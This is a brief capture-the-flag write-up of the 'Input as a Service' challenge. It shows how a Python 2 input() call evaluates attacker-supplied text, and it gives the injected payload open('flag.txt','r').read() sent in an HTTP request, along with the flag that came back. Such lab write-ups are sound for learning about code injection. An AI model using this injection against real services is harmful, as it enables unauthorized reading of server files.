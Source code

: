 # Input as a Service

>In order to blend with the extraterrestrials, we need to talk and sound like them. Try some phrases in order to check if you can make them believe you are one of them.

the webpage seemed weird, it was like the error messages of python IDE

```
2.7.18 (default, Apr 20 2020, 19:51:05) 
[GCC 9.2.0]
Do you sound like an alien?
>>> 


 Traceback (most recent call last):
  File "/app/input_as_a_service.py", line 16, in <module>
    main()
  File "/app/input_as_a_service.py", line 12, in main
    text = input(' ')
  File "<string>", line 1
    GET /app/input_as_a_service.p HTTP/1.1
                                     ^
SyntaxError: invalid syntax
```

![](https://i.imgur.com/1QSNwQD.png)

then i noticed that it is executing python so i searched for flag.txt and read() it
```
open("flag.txt", "r").read()
GET / HTTP/1.1
Host: 138.68.167.11:30982
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

>CHTB{4li3n5_us3_pyth0n2.X?!}

[BL4CKC0FF33 ☕](https://github.com/BL4CKC0FF33/)
